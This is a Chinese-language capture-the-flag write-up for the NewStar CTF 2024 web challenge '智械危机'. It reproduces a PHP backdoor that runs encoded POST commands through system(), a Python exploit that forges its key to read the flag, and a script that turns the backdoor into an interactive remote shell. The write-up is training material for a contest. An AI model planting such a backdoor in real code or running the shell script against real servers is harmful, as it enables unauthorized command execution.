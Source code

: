 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

<script setup>
import Container from '@/components/docs/Container.vue'
</script>

# 智械危机

`index.php` 的基本提示：

```php
echo "<b>ROBOTS</b> is protecting this website!<br>";
echo "But it is not smart enough...<br>";
echo "It may leak some information to you, future hackers!";
```

明显的提示：查看 `robots.txt`，得到了路由 `/backd0or.php`

```php
<?php
function execute_cmd($cmd) {
    system($cmd);
}
function decrypt_request($cmd, $key) {
    $decoded_key = base64_decode($key);
    $reversed_cmd = '';
    for ($i = strlen($cmd) - 1; $i >= 0; $i--) {
        $reversed_cmd .= $cmd[$i];
    }
    $hashed_reversed_cmd = md5($reversed_cmd);
    if ($hashed_reversed_cmd !== $decoded_key) {
        die("Invalid key");
    }
    $decrypted_cmd = base64_decode($cmd);
    return $decrypted_cmd;
}
if (isset($_POST['cmd']) && isset($_POST['key'])) {
    execute_cmd(decrypt_request($_POST['cmd'],$_POST['key']));
}
else {
    highlight_file(__FILE__);
}
?>
```

一个对新生来说略绕的 PHP 代码阅读，也对编写脚本、使用 WebShell 的能力进行初步的考查。

`cmd` 参数是**Base64 编码后**的 `system` 命令。

`key` 的验证逻辑：将<strong>`cmd` 参数值</strong>字符串翻转后，计算 MD5 哈希，并与 Base64 解码后的 `key` 进行比较。

因此我们将这个过程反过来，就可以得到解题 EXP：

```python
import requests
import base64
import hashlib
print("[+] Exploit for newstar_zhixieweiji")
url = "http://yourtarget.com/backd0or.php"
cmd = "cat /flag"
cmd_encoded = base64.b64encode(cmd.encode()).decode()
cmd_reversed = cmd_encoded[::-1]
hashed_reversed_cmd = hashlib.md5(cmd_reversed.encode()).hexdigest()
encoded_key = base64.b64encode(hashed_reversed_cmd.encode()).decode()
payload = {
    'cmd': cmd_encoded,
    'key': encoded_key
}
response = requests.post(url, data=payload)
print(f"[+] Flag: {response.text}")
```

EXP 使用了 `requests` 库负责请求后门 shell，也可以用任何一款能够发出 POST 请求的工具完成这一操作，如 HackBar、BurpSuite 等。

<Container type="quote" title="出题人的胡诌">

请各位选手**打好编程基础，不要浮躁**。这题的代码逻辑应该懂一点英语就能够看懂了，变量名称也没做混淆。AI 可能会胡编，但是完全可以给你提取出足够的**关键词**用于搜索。
</Container>

这题的出法**不鼓励**手搓！！！先编码再逆序，执行一个指令都费劲，flag 位置没猜对就得再搓一遍。只要脚本写好，这题完全可以得到一个简洁的交互式 shell：

![交互式 Shell 示意图](/assets/images/wp/2024/week1/zhixieweiji_1.png)

附代码：

```python
import requests
import base64
import hashlib
print("[+] Shell for newstar_zhixieweiji")
url = input("[+] Enter the target URL: ")
def execute_command(cmd):
    cmd_encoded = base64.b64encode(cmd.encode()).decode()
    cmd_reversed = cmd_encoded[::-1]
    hashed_reversed_cmd = hashlib.md5(cmd_reversed.encode()).hexdigest()
    encoded_key = base64.b64encode(hashed_reversed_cmd.encode()).decode()
    payload = {'cmd': cmd_encoded,'key': encoded_key}
    response = requests.post(url, data=payload)
    return response.text[:-1]
hostname = execute_command("hostname")
username = execute_command("whoami")
while True:
    directory = execute_command("pwd")
    command = input(f"{username}@{hostname}:{directory}$ ")
    output = execute_command(command)
    print(output)
```
